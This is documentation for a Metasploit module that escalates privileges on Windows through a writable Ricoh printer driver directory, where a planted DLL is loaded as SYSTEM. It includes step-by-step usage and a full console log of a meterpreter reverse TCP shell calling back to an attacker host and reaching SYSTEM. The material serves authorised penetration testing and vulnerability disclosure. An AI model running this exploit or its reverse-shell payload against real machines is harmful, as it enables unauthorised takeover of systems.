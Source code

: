## Vulnerable Application

  [Various Ricoh printer drivers](https://www.ricoh.com/info/2020/0122_1/list) allow escalation of
  privileges on Windows systems.

  For vulnerable drivers, a low-privileged user can
  read/write files within the `RICOH_DRV` directory
  and its subdirectories.

  `PrintIsolationHost.exe`, a Windows process running
  as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
  during the installation of a printer. A user can
  elevate to SYSTEM by writing a malicious DLL to
  the vulnerable driver directory and adding a new
  printer with a vulnerable driver.

  Multiple runs of this module may be required
  given successful exploitation is time-sensitive.

## Verification Steps

  1. Install a vulnerable Ricoh driver
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/ricoh_driver_privesc```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM.

## Scenarios

### Tested on Ricoh PCL6 Universal Driver `v4.13`

  ```
  msf5 > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (206403 bytes) to 192.168.37.199
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.199:49670) at 2020-02-06 12:47:59 -0600

  meterpreter > getuid
  Server username: DESKTOP-A97LIDN\ricoh-test
  meterpreter > sysinfo
  Computer        : DESKTOP-A97LIDN
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  meterpreter > background
  [*] Backgrounding session 1...
  msf5 exploit(multi/handler) > use ricoh_driver_privesc

  Matching Modules
  ================

     #  Name                                        Disclosure Date  Rank    Check  Description
     -  ----                                        ---------------  ----    -----  -----------
     0  exploit/windows/local/ricoh_driver_privesc  2020-01-22       normal  Yes    Ricoh Driver Privilege Escalation


  [*] Using exploit/windows/local/ricoh_driver_privesc
  msf5 exploit(windows/local/ricoh_driver_privesc) > set session 1
  session => 1
  msf5 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(windows/local/ricoh_driver_privesc) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/local/ricoh_driver_privesc) > check
  [*] The target appears to be vulnerable. Ricoh driver directory has full permissions
  msf5 exploit(windows/local/ricoh_driver_privesc) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Adding printer JLFJCi...
  [*] Sending stage (206403 bytes) to 192.168.37.199
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.199:49673) at 2020-02-06 12:48:40 -0600
  [*] Deleting printer JLFJCi
  [+] Deleted C:\Users\RICOH-~1\AppData\Local\Temp\GFHCkvh.bat
  [+] Deleted C:\Users\RICOH-~1\AppData\Local\Temp\headerfooter.dll

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-A97LIDN
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
